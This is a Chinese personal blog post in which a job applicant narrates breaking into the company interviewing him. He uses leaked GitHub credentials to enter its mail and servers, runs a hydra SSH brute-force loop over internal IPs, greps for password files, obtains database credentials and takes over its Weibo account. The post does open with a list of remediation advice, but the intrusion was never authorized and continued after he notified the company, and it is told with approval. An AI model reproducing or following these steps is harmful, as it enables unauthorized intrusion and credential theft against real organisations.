 ```yaml
---
layout: post
title: 因为渗透进了一家新公司实习
categories: 一个实习生
tags: 实习笔记
---
```


但行好事，莫问前程
> 解决方案

* <font color="red"> 删除Github上的敏感配置信息(包括但不限于微信Appkey,secert,Email账号，mlab上的DB配置，产品AppKey,Secert, ELK服务器账号密码等信息且不只是一个配置文件中出现)或着撤下Github上所有的公司产品代码 </font>
* <font color="red">更改邮箱密码为复杂密码(但不止包括邮箱，其他可被搜索并和公司相关联的其他平台账号)，更改服务器为无规律密码(而非公司名加服务器功能加ip前几位构成)，</font>
* <font color="red">更新数据库中已经暴露的数据。</font>
* <font color="red">加强服务器配置，例如防SSH爆破，适当清理bash的history，设置白名单访问等</font>
* <font color="red"> 重要信息不可放置到外网上。</font>


这是一次找实习之余，偶然接到这家公司的面试。出于对目标公司的好奇。当然只是作为对所中意公司的了解(之前是一点也不了解)，进行了小小的测试。目前所有已测试数据均已删除。不过经过此次测试发现越来越喜欢这家公司了。


1.故事的开始。

去官网看了一下，发现没有什么实质性的内容，而且不给注册。。好坑，不开心。而且只能从微信体验公司宣传的功能。于是抓包，看到API，猜了几次。觉得十分有趣。后来就去搜索引擎 `site:target.com` 不出意外发现了其他的相关域名。而且测试版的网站竟然还没下线(允许注册登录)。在这个网站注册了账号，尝试了一下基本功能，算是有了初步的了解。不过发现一个很不好的地方，就是API的设计，基本上全是用的GET，从后台取数据的时候，URL上一大串参数。而根据REST设计风格来看，其实这几个功能都应该是通过POST的方式，并且将请求的数据放到Body里比较好。 

2.Github上的数据泄露

一边从搜索引擎得到网站一些信息，然后去github尝试了一下，看看有没有人上传过代码。不尝试不知道，发现信息泄露十分严重。数个员工均在github上公开了代码。其中配置文件包括服务器，企业邮箱，db，ELK信息等。
拿出旁注工具，旁注得到域名
![旁注得到域名](https://img.iami.xyz/images/hackit/pangzhu_1.jpg)

同时登录企业邮箱，邮箱中并无重要信息。但是Get到了部分通讯录。有了通讯录就方便了很多。通讯录是Json格式的，看起来很费事，所以转成csv好点。

```shell
awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat tt.txt  >tempfile		   #直接合并数据
sed -n '2,6p' tempfile			#取第姓名行到第邮箱行
sed '2,3d' tempfile				#删除姓名到邮箱中的多余的二行。
cat tempfile | sed 's/,/\n/g'	#以逗号进行的行列转置，但是转置之后全部变成一列了
paste name.txt mail.txt  | awk '{printf "%s %s %s \n", $1 ,",",$2 }' > ConnectInfo.csv 					#两个不同的文件合并成两列到一个文件				  #
```

其实还可以用csvkit，csvkit的话一行命令就行了就`json2csv xx.json xx.csv`可以转成csv格式了。

而另一边旁注得到的信息需要进行一下整理，看看是不是有多个站点共同使用一个IP上的。不同工具不同字典大小，可以得到不同的结果。
> 使用
`awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat IpInfo.txt`

得到整理好的数据，可以看到有三个ip上同时每个上面部署了两个站点。当然后来换了个字典，发现其实不止这么多二级域名，一共有16个的样子吧。
![整理数据](https://img.iami.xyz/images/hackit/pangzhu_2.jpg)

这边得到了iplist就应该开始进行扫描了。使用 `nmap -A -Pn -iL IPlist.txt > IPScanresult.txt` 同时还有一个进行URL的扫描。当然这个时候我还在搜索信息。发现其使用一个XX部落，通过密码猜测进入。然后发现一个十分重要的东西。就是内网映射服务器的账号密码在那记载着呢。

![进来了](https://img.iami.xyz/images/hackit/RUKOUVPS.png)
进来之后发现其实还部署着docker，nginx，ELK等服务，但是这台服务器的性能上是真一般，而且网速超级慢。

3.服务器之上
> 进了服务器，开始看一下路由表映射，然后查看历史记录，在整个目录下递归搜索含有'pwd','password','xxx'的文件。查看历史记录发现`grep -rnw /home/ -e 'pwd'`



```shell
iplist="10.10.241.52
10.10.177.183
10.10.241.52
10.10.177.183
10.10.255.95
10.10.239.183
172.17.0.2
10.10.255.1
172.17.0.2
10.10.255.1
10.10.220.103
10.10.255.92
10.10.200.143
10.10.166.86
10.10.255.93
10.10.84.141
10.10.200.122
10.10.0.1
10.10.255.90
10.10.200.4
10.10.255.2
10.10.255.200
10.10.255.250
10.10.232.79"
 
echo "===Begin TEST==="
for ip in $iplist;
do
          hydra $ip -s 50001 ssh -l root -P passlist.txt
done
```

OVER_by_2016_11_12

现在是第二天早上11点(周日)：刚写完邮件通知对方。

ps:其他过程不想写了，昨天搞到将近两点，本来还打算看看面试题呢。不过也没什么可看的。哎，通知了对方。有的人说不要，有的人说要。还是，但行好事，莫问前程。希望ok。

![通知对方](https://img.iami.xyz/images/hackit/attention.jpg)

ps2:前几天和堂姐聊天，说要辞实习，重新找一份。姐说：年轻人就是好。是啊，年轻，棱角未平，阳光正好。现在我又佩服我的老姐了，能拿下全马，佩服你。


update:14号上午，还是不想看面试题。昨天发邮件通知之后，也没人回复个谢谢。邮箱密码虽然改了，但服务器还是没有修改。这次又测到4个DB服务器的账号密码。

![DBMSG](https://img.iami.xyz/images/hackit/msg1.jpg)

问了下HR面试我的面试官名字，找到之后，微博,github,知乎。发现我们两个的学习路线差不多。不知道今天下午的面试会怎么样？OK,嘿嘿。
update:14号上午11:00，好吧官方微博账号到手。

![weibohh](https://img.iami.xyz/images/hackit/weibo.png)